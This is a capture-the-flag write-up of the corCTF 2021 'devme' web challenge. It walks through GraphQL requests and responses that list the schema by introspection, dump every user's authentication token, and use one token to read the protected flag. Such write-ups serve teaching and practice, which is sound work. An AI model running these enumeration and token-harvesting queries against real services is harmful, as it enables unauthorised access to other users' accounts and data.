


# devme - corCTF 2021

- Category: Web
- Points: 323
- Solves: 264
- Solved by: Iregon

## Description

an ex-google, ex-facebook tech lead recommended me this book!

[https://devme.be.ax](https://devme.be.ax)

## Solution

The linked site in the challenge description is mostly empty. The only part that looks interesting is the form at the end of the page:



Submitting the form we can see a request made to an intesting endpoint:



and in the body we have a complete graphql query:

```json
{
    "query": "mutation createUser($email: String!) {\n\tcreateUser(email: $email) {\n\t\tusername\n\t}\n}\n",
    "variables": {
        "email": "test@test.com"
    }
}
```

We have the complete access to the database, so we can try to enumerate it:

### Request
```json
{
    "query":"{__schema {queryType {fields {name description}}}}"
}
```

### Response
```json
{
  "data": {
    "__schema": {
      "queryType": {
        "fields": [
          {
            "name": "users",
            "description": null
          },
          {
            "name": "flag",
            "description": null
          }
        ]
      }
    }
  }
}
```

The field **flag** looks very intresting.

Let's try to query it!

### Request
```json
{
    "query":"{flag}"
}
```

### Response
```json
{
  "errors": [
    {
      "message": "Field \"flag\" argument \"token\" of type \"String!\" is required, but it was not provided.",
      "locations": [
        {
          "line": 1,
          "column": 2
        }
      ]
    }
  ]
}
```

Hmm... token is required and we don't know it.

Now, let's take a look at **users** field.

Let's check if token is in it.

### Request
```json
{
    "query":"{users{token}}"
}
```

### Response
```json
{
  "data": {
    "users": [
      {
        "token": "3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b"
      },
      {
        "token": "5568f87dc1ca15c578e6b825ffca7f685ac433c1826b075b499f68ea309e79a6"
      },
      {
        "token": "d34609c0c342f7dc6f3d8b18356dfeda82a233a9846c7d2dbab8fb803719caf9"
      },
      ...
    ]
  }
}
```

There are a lot of tokens.

Let's try the first one!

### Request
```json
{
    "query":"{flag(token: \"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b\")}"
}
```

### Response
```json
{
  "data": {
    "flag": "corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}"
  }
}
```

There is the flag!!!

## Flag

```
corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}
```
